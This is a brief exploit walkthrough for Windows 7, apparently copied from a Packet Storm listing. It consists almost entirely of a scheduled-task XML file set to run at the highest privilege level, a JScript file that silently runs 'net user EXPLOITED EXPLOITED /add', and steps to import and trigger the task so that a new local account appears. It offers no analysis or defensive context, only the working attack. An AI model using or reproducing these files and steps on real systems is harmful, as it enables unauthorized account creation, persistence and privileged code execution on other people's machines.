 From：https://packetstormsecurity.com/files/142191

---

TestOS: Win7x86

### 1. get Userid

cmd:

`whoami`

### 2. create file "w00tw00t.xml"

code:

```
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>1337-01-01T13:37:07.9601296</Date>
    <Author>NT-AUTHORITY\SYSTEM</Author>
  </RegistrationInfo>
  <Triggers />
  <Principals>
    <Principal id="Author">
      <UserId>win-r7mm90erbmd\a</UserId>
      <LogonType>S4U</LogonType>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>Parallel</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>true</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>false</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>P3D</ExecutionTimeLimit>
    <Priority>7</Priority>
    <RestartOnFailure>
      <Interval>PT1M</Interval>
      <Count>3</Count>
    </RestartOnFailure>
  </Settings>
  <Actions Context="Author">
    <Exec>
      <Command>%USERPROFILE%\Desktop\EXPLOIT.JS</Command>
    </Exec>
  </Actions>
</Task>
```

Change it: `<UserId>win-r7mm90erbmd\a</UserId>`

Save to `%USERPROFILE%\Desktop\w00tw00t.xml`

### 3. create file "EXPLOIT.JS"

code:

```
suidshell = WScript.CreateObject("WScript.Shell");
suidshell.run("cmd.exe /c net user EXPLOITED EXPLOITED /add", 0);
```

Save to `%USERPROFILE%\Desktop\EXPLOIT.JS`

### 4. Run 'taskschd.msc' -> Import Task.. -> Select and Open: w00tw00t.xml -> Run

Add user EXPLOITED

Tips:

- requires administrator permission to import Task




